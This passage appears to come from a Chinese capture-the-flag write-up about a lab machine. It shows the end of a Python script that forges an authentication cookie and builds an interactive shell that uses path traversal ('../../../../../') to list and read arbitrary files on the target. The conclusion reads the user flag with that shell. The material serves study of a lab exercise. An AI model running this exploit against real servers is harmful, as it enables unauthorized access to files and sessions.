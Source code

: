 ```
new_cookie = f"{new_cookie_data}.{new_cookie_sig}"
resp = requests.get(
"http://10.10.10.195/home", cookies=dict(auth=new_cookie),
)
if not "You can login with the username and password" in resp.text:
print(f"[+] Identified working cookie from generated options!")
self.cookie = new_cookie
break
def do_ls(self, args):
"Usage: ls [path relative to /]"
resp = requests.post(
"http://10.10.10.195/admin/log/dir",
data={"logdir": f"../../../../../{args}"},
cookies={"auth": self.cookie},
)
print(resp.text)
def do_dir(self, args):
"Usage: dir [path relative to /]"
self.do_ls(args)
def do_cat(self, args):
"Usage: cat [file path relative to /]"
resp = requests.post(
"http://10.10.10.195/admin/log/view",
data={"logfile": f"../../../../../{args}"},
cookies={"auth": self.cookie},
)
print(resp.text)
def precmd(self, args):
if len(args.split(" ")) > 2:
c = args.split(" ", 2)[0]
args = f"help {c}"
return args
term = Term()
try:
term.cmdloop()
except KeyboardInterrupt:
print()
```

**0x06 结论**

user.txt 位置在 /home/user/user.txt , 可以直接获取。

这里可以通过脚本枚举所有文件夹

```
intense> ls /home/user/user.txt
#707580d2...
```

内网小组持续招人，扫描二维码加入我们！

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)
